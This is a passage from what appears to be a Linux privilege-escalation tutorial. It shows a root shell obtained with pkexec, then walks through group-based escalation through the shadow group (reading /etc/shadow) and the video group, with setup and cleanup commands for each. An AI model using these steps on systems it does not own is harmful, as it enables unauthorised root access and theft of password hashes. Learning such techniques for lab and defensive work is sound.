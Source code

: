 When the authentication is complete, we'll go to the first SSH session and we will see a root shell:

```shell
user@pwn:~$ pkexec "/bin/bash" 
root@pwn:~# id
uid=0(root) gid=0(root) groups=0(root)
root@pwn:~# whoami
root
root@pwn:~# 
```

Remove the current user from the pkexec group:

```sh
sudo gpasswd -d user pkexec
```

Reboot the system to apply the changes:

```sh
reboot
```

# Privilege Escalation via Shadow Group

The shadow group can read and modify the `/etc/shadow` file. We'll add the current user to the shadow group:

```shell
sudo usermod -aG shadow user && reboot
```

Users from the group shadow can read the `/etc/shadow` file:

```shell
-rw-r----- 1 root shadow 1824 May 11 10:14 /etc/shadow
```

Remove the current user from the shadow group:

```shell
sudo gpasswd -d user shadow
```

Reboot the system to apply the change:

```shell
reboot
```

# Privilege Escalation via Video Group

The video group can manage video devices.

Add the current user to the video group:

```shell
sudo usermod -aG video user && reboot
```
